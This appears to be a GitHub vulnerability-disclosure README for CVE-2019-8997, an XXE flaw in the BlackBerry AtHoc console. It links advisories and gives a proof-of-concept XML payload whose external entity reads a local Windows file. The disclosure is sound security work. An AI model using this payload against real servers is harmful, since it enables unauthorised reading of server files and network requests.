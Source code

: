 # CVE-2019-8997
An XML External Entity Injection (XXE) vulnerability in the Management System (console) of BlackBerry AtHoc versions earlier than 7.6 HF-567 could allow an attacker to potentially read arbitrary local files from the application server or make requests on the network by entering maliciously crafted XML in an existing field.

## Reported By
Nolan B. Kennedy (nxkennedy)

## Security Advisory
http://support.blackberry.com/kb/articleDetail?articleNumber=000047227
<br>
https://nvd.nist.gov/vuln/detail/CVE-2019-8997

## Blog Post
https://www.nolanbkennedy.com/feed/xxe-vulnerability-blackberry-athoc
<br>
https://www.mindpointgroup.com/blog/pen-test/xxe-vulnerability-in-blackberry-athoc-networked-crisis-communication-platform/

## Proof of Concept Exploit
```xml
<!DOCTYPE doc [
<!ELEMENT doc ANY > 
<!ENTITY foo SYSTEM "file:///c:/windows/win.ini">
]>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
version="1.0">
<xsl:output method="html" />
<xsl:template match="/">

<doc>&foo;</doc>

<head></head>
<body style="margin: 0; padding: 0;" oncontextmenu="return
false;"></body>
</xsl:template>
</xsl:stylesheet>
```

